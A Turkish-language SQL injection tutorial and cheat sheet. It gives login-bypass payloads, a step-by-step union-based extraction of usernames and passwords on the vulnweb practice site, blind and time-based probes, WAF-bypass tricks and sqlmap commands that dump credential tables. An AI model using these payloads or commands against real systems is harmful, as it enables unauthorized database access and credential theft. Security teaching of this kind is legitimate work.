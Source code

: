 SQL Injection Nedir?

SQL Injection, web uygulamalarının kullanıcı girişi içeriklerini doğrulamadan veya filtrelemeden SQL sorgularına dahil etmesi sonucu meydana gelen bir güvenlik zafiyetidir. Bu zafiyet, bir siber saldırganın zararlı SQL kodlarını enjeksiyon yaparak veritabanına yetkisiz erişim sağlamasına olanak tanır.

SQL Injection Türleri
Classic SQL Injection
Klasik SQL Injection, kullanıcı girişi aracılığıyla doğrudan zararlı SQL kodlarının veritabanı sorgularına eklenmesi şeklinde gerçekleşir.

Örnek:

' OR '1'='1'; --
Bu kod, SQL sorgusunun daima doğru dönmesini sağlar ve potansiyel olarak tüm kayıtları döndürebilir.

Blind SQL Injection
Blind (Kör) SQL Injection, uygulamanın hata mesajları vermediği, ancak dolaylı yöntemlerle veri çekmenin mümkün olduğu durumları ifade eder.

Örnek:

' AND (SELECT COUNT(*) FROM users) > 0; --
Bu yöntemle, sorgunun sonucunu farklı yanıtlarla kontrol ederek veri sızıntısı yapılabilir.

Time-Based Blind SQL Injection
Bu tür saldırı, sorguların yürütülme süresindeki gecikmeleri kullanarak veri elde eder.

Örnek:

' OR IF(1=1, SLEEP(5), 0); --
Bu sorgu, ifadesi doğruysa sorgunun 5 saniye beklemesini sağlar.

Error-Based SQL Injection
Error-Based SQL Injection, veritabanından hata mesajlarını kullanarak bilgi toplar.

Örnek:

' OR 1=CONVERT(int, (SELECT @@version)); --
Bu sorgu, veritabanı versiyonunu hata mesajları üzerinden çekebilir.

Union-Based SQL Injection
Union-Based SQL Injection, UNION komutunu kullanarak birden fazla sorgunun sonucunu birleştirir ve veri çekmeye çalışr.

Örnek:

' UNION SELECT null, username, password FROM users; --
Bu sorgu, “users” tablosundaki “username” ve “password” sütunlarını döndürebilir

Login Kısımlarında SQL Injection
SQL Injection, genellikle kullanıcı giriş formlarında meydana gelir. Kötü niyetli bir kullanıcı, doğrulama kodunu atlamak veya hassas bilgilere erişim sağlamak için zararlı kodlar ekleyebilir.

Örnek Bir Login Formu Sorgusu:

SELECT * FROM users WHERE username = 'kullanici' AND password = 'sifre';
Zararlı Kod Örneği:

' OR '1'='1'; --
Bu zararlı kod “username” ve “password” alanlarına girildiğinde, sorgu şu hale gelir:

SELECT * FROM users WHERE username = '' OR '1'='1'; --' AND password = '';
Bu durumda, sorgunun “OR ‘1’=’1'” kısmı her zaman doğru olduğu için tüm kullanıcılar döndürülür ve kimlik doğrulama atlanmış olur.

bazı login sql injection kodları şunlardır ;

Örnek:

admin'#
1'  OR 1=1#
admin'--
admin'/*
' or 1=1/*
') or '1'='1--
1' OR 1=1#
1' OR 1=1--
1'or'1'='1
admin'# (admin yerine kullanıcı adı biliyorsan yaz)
admin'--
deneme' OR 1=1--
deneme' OR 1=1#
deneme'+OR+1=1--
deneme'+OR+1=1#
'=''or'--+
ÖRNEK SQL İNJECTİON UYGULAMASI
Bu uygulamayı vulnweb den yapıyoruz tamamen yasaldır.

Adım 1 tespit etme ;
sql injection’u tespit etmek için illa ‘ kullanma 1 no lu id de ne varsa aklında tut ve 2 ye git 2 ye gittikten sonra
id=2–1 de ve 1 no lu id daki şeyi görüyorsan sql var demek sql matematik işlemlerini yapabilen bir dildir sayfa 1 deki içerik ne ise sayfa 2 ye gittiğinizde farklı bir içerik gelicektir 2–1 dediğinizde 1.sayfadaki içerik geliyorsa zafiyet tespit edilmiştir




1~2 >>> 2–1 , 2¹ (3 eder 3.id ile aynı mı) yada tek tırnak yerine 2 tane koy sistem çalışıyorsa sql online
sonra kolon bulmalısın id den sonra UNION SELECT 1,2,3,4,5, hata gidene kadar dene gittikten sonra sayfanın en alt kısmına in ordaki sayıların olduğu yerden bilgi çek

Adım 2 UNION SELECT İLE KOLON BULMA ;
id den sonra UNION SELECT 1,2,3,4,5, hata gidene kadar dene gittikten sonra sayfanın en alt kısmına in ordaki sayıların olduğu yerden bilgi çek

(eğer ekranda çok yazı içerik var ise id değerine -999999 gir tek senin sorgun çalışcak)



11 kolon olduğunu bulduk ve sayfadaki hata gitti sıra kolonda bulunan tabloları görmekte

Adım 3 TABLOLARI GÖRMEK ;
?id=1 UNION SELECT 1,table_name,3,4,5,6,7,8,9,10,11 FROM information_schema.tables WHERE table_schema = database() 
(tablo şemasının mevcuttaki database eşit olanları getir dedik)
?id=1: Bu, hedef web uygulamasında kullanılan URL parametresidir. Normalde, id=1 bir sorguya dahil edilerek belirli bir kayıt çekilir.

UNION SELECT: UNION komutu, iki veya daha fazla SELECT ifadesinin sonuçlarını birleştirir. Bu, saldırganın kendi seçtiği bilgileri mevcut sorgunun sonucuyla birleştirerek döndürmesine olanak tanır.

1, table_name, 3, 4, 5, 6, 7, 8, 9, 10, 11: Bu kısımda, saldırgan veritabanı sorgusunun beklediği sütun sayısına uygun bir SELECT ifadesi oluşturur. table_name, veritabanındaki tablo adlarını çekmek için kullanılan sütundur. Diğer sayılar, sütun sayısını eşleştirmek için yer tutuculardır.

FROM information_schema.tables: Bu, SQL veritabanı sistemlerinde kullanılan bir meta veri tablosudur. information_schema.tables, veritabanındaki tüm tablolar hakkında bilgi içerir.

WHERE table_schema = database(): Bu koşul, yalnızca şu anki veritabanı (database() fonksiyonu mevcut veritabanı adını döndürür) içindeki tabloların adlarını döndürmek için kullanılır.



Adım 4 TABLODAN SÜTUN ADLARINI ÖĞRENMEK ;
?id=-99999 UNION SELECT 1,column_name,3,4,5,6,7,8,9,10,11 FROM information_schema.columns WHERE table_name = 'users'
Users tablosundaki kolonları bulmak için kodumuzu bu şekilde düzelttik.

?id=-99999: Bu, saldırganın sorgunun başarılı olması için manipüle ettiği bir parametre. -99999 değeri, var olmayan bir kayıt numarasını temsil eder ve sorgunun doğal sonucunun boş dönmesini sağlar, böylece UNION sorgusunun sonucu görüntülenir.

UNION SELECT: UNION komutu, iki veya daha fazla SELECT ifadesinin sonuçlarını birleştirir. Bu, saldırganın kendi seçtiği bilgileri mevcut sorgunun sonucuyla birleştirerek döndürmesine olanak tanır.

1, column_name, 3, 4, 5, 6, 7, 8, 9, 10, 11: Bu kısımda, saldırgan sütun sayısını mevcut sorguyla eşleştirecek şekilde bir SELECT ifadesi oluşturur. column_name, belirli bir tablodaki sütun adlarını çekmek için kullanılan sütundur. Diğer sayılar, sütun sayısını eşleştirmek için yer tutuculardır.

FROM information_schema.columns: information_schema.columns, veritabanında bulunan tüm tabloların sütunları hakkında bilgi içerir.

WHERE table_name = 'users': Bu koşul, yalnızca users tablosundaki sütunların adlarını döndürmek için kullanılır. Saldırgan, bu tabloya özel sütun bilgilerini çekmeye çalışır.

Gelen sütunlar bu şekilde username password cc bilgileri mevcut.


Adım 5 TABLODAN VERİ ÇEKME ;
?id=-99999 UNION SELECT 1,passwd,3,4,5,6,username,8,9,10,11 FROM users

Error Based SQLi ;
extractvalue(rand(), concat(1,(SELECT database()))); 
(database ismi öğrenme select siz de id dibine koyabilirsin)

SELECT extractvalue(rand(), concat(1,(UNION SELECT 1,2,3,4,5,6,7,7,8,9,10,11-- -)))
error based da bu şekilde yola çıkabilirsiniz.

boolen based sqli;
eğer veri ekrana yansımıyorsa;

?id=1 and (SELECT 1)=1 (içerik gözüküyor olması gerek sonrasında ?id=1 and (SELECT 1)=2 de içerik gidiyorsa)
?id=1 and SUBSTRING ((SELECT table_name FROM information_schema.tables WHERE table_schmea=database()LIMIT 1.1),1,1)=’a’ (harfleri dene içerik gelince tablonun ilk adını buldun sonra en dıştaki 1,1 den baştaki 1i 2 yap ve tekrar alfabe dene)

HIZLANDIRMAK İÇİM ASCİİ EKLİYORUZ ;
and ASCII(SUBSTRING ((SELECT table_name FROM information_schema.tables WHERE table_schmea=database()LIMIT 1.1),1,1))>80 
(80den büyükse özel karakter falan yok google dan bak )
eğer hiçbişey dönmüyorsa ascii yada karakteri bulsanda bulmasanda 
time based sqli;

?id= IF(1=1,1,0)  (içerik dönmesi gerek) sonra IF(1=1,sleep(5),0)
5 snye uyku ve sql inj buldun
süre tam tutmuyorsa id= 1 and 1=IF(1=1,sleep(5),0) 
SQL İNJECTİON BYPASS ;
filtrelenmiş e mail şifre kontrolünden geçip sql inj bulmamıza yardım eder “‘tes’t@testgmail.com” yada “‘test@test.com” bunu kabul ediyor mu dene kabul ediyorsa bunu dene “‘@test.com”>test — @test.com” sonra eğer boşluklar sorun çıkarıyorsa “‘/**/@test.com”>test — @test.com” yani ‘/**/UNION/**/SELECT/**/table_name/**/from/**/information_schema.tables — /**/@test.com

cheatsheat arat
waf bypass sql injection arat
filtrelenmiş olabilir dene
‘ işaretinde filtre olabilir onu sil öyle dene
boşluklar filtrelenmiş ise (+)
dene kelime filtrelenmiş ise büyük küçük karışık yaz(uNıOn)
# E filtre var ise ( — )yada(//)dene
url encode dene

Time delay ekle
burp suite ile dene isteği yakala sonra değiştir
eğer belirli şeyler filtrelenmişse hex kodunu burp üzerinden al dene
char encode dene

+unIoN+sElEcT+1,2%23
+unIoN+sElEcT+1,database()+FrOm+information_schema.tables%23
+unIoN+sElEcT+1,table_name+FrOm+information_schema.tables%23
+unIoN+sElEcT+user,password+FrOm+users%23
SQLMAP İLE ;

sqlmap -u "url" --random-agent --risk=3 --level=3 --dbs --threads 10 (databse ismi bulur)
sqlmap -u "url" --random-agent -D databaseismi -tables --risk=3 --level=3 (tablo bulur)
sqlmap -u "url" --random-agent -D databaseismi -T users -columns --risk=3 --level=3(colum bulur)
sqlmap -u "url" --random-agent -D databaseismi -T users --dump --risk=3 --level=3 ( kırar şifre)
sqlmap -u "url" --random-agent -D databaseismi -T users -C user,pass --dump --risk=3 --level3
